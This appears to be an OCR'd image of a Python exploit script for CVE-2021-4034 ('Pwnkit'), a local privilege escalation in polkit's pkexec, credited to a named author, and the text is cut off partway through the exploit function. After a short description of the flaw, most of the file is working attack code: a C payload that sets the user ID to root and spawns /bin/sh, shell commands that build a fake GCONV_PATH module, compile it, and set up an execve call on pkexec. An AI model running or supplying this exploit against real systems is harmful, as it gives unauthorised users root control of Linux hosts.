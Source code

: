 ```python
A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

References:
- https://github.com/arthepsy/CVE-2021-4034
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-4034
- https://nvd.nist.gov/vuln/detail/cve-2021-4034
- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
"""

class CVE_2021_4034:
    def author(self):
        print("""
        ###########################################

            CVE-2021-4034 | "Pwnkit"
            Author: azazelm3dj3d
            GitHub: https://github.com/azazelm3dj3d

        ###########################################
        """)

    def exploit(self):

        payload = """
        #include <stdio.h>\n
        #include <stdlib.h>\n
        #include <unistd.h>\n\n

        void gconv() {}\n

        void gconv_init() {\n
            setuid(0); setgid(0);\n
            seteuid(0); setegid(0);\n

            system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n

            exit(0);\n
        }
        """

        os.system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'")
        os.system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules")

        with open("pwnkit/pwnkit.c", "w") as f:
            f.write(payload)
        
        os.system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC")

        c_lang = CDLL(find_library("c"))
        c_lang.execve.argtypes = c_char_p, POINTER(c_char_p), POINTER(c_char_p)

        pkexec_cmd = b"/usr/bin/pkexec"
        argv = []
        env_store = [
```